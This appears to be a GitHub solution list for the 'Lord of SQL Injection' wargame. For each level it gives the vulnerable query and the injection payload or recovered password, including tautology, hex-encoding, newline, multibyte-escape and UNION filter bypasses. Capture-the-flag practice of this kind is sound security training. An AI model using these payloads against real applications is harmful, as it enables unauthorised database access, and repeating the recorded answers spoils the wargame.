 # Lord-of-Sql-injection

gremlin

prob : select id from prob_gremlin where id='' and pw=''

solve : ?id=' or 1=1%23


cobolt

prob : select id from prob_cobolt where id='' and pw=md5('')

solve : ?id=' or id='admin'%23


goblin

prob : select id from prob_goblin where id='guest' and no=

solve : ?no=' or id=0x61646d696e


orc(blind)

prob : select id from prob_orc where id='admin' and pw=''

solve : ?pw=095a9852


wolfman

prob : select id from prob_wolfman where id='guest' and pw=''

solve : ?pw=%27||id=0x61646d696e%23


darkelf

prob : select id from prob_darkelf where id='guest' and pw=''

solve : ?pw=%27||id=0x61646d696e%23


orge(blind)

prob : select id from prob_orge where id='guest' and pw=''

solve : ?pw=7b751aec


troll

prob : select id from prob_troll where id='ADmin'

solve : ?pw=AdMin


vampire

prob : select id from prob_vampire where id=''

solve : ?id=adadminmin


skeleton

prob : select id from prob_skeleton where id='guest' and pw='' and 1=0

solve : ?pw=' or id='admin'%23


golem(blind)

prob : select id from prob_golem where id='guest' and pw=''

solve : ?pw=77d6290b


darknight(blind)

prob : select id from prob_darkknight where id='guest' and pw='' and no=

solve : ?pw=0b70ea1f


bugbear(blind)

prob : select id from prob_bugbear where id='guest' and pw='' and no=

solve : ?pw=52dc3991


giant

prob : select 1234 from{$_GET[shit]}prob_giant where 1

solve : ?shit=%0b,?shit=%0c


assasin 

prob : select id from prob_assassin where pw like ''

solve : ?pw=%E%D%

memo : a% , %a , %a%


zombie_assassin

prob : select id from prob_zombie_assassin where id='' and pw=''

solve : pass

memo : %bf' or 1=1--%20 -> %20--1=1 ro '%bf


succubus(pass)

nightmare(pass)


xavis(blind)

prob : select id from prob_xavis where id='admin' and pw=''

solve : ?pw=우왕굳

memo : 한글 ascii


dragon

prob : select id from prob_dragon where id='guest'# and pw=''

solve : ?pw='%0aand pw=12311312312312 or id='admin

memo : %0a -> 줄바꿈  # -> 한줄 주석


iron_golem(error based blind)

prob : select id from prob_iron_golem where id='admin' and pw=''

solve : ?pw=06b5a6c16e8830475f983cc3a825ee9a


dark_eyes(error based blind)

prob : select id from prob_dark_eyes where id='admin' and pw=''

solve : ?pw=5a2f5d3c


hell_fire(error based blind)

prob : select id,email,score from prob_hell_fire where 1 order by

solve : ?pw=admin_secure_email@emai1.com


green_dragon

prob : select id,pw from prob_green_dragon where id='' and pw=''

solve : ?id=\&pw = union select 0x5c,(select 0x756e696f6e2073656c6563742030783631363436643639366523)%23

memo : query1=select id,pw from prob_green_dragon where id='\' and pw='union select 1,2#'
       query2=select id from prob_green_dragon where id='1' and pw='2',
       쿼터 필터링, 
       query1 : id=\&pw = union select 0x5c,(select 0x756e696f6e2073656c6563742030783631363436643639366523)%23 
       query2 : id = \ , pw = union select 0x61646d696e#
       0x5c
       0x756e696f6e2073656c6563742030783631363436643639366523   


red_dragon(노가다)

prob : select id from prob_red_dragon where id='' and no=1

solve : 586482014

memo : id는 7자리까지, no는 is_numeric함수 사용, #과 개행문자로 우회


blue_dragon(timed based)

prob : select id from prob_blue_dragon where id='' and pw=''

solve : d948b8a0


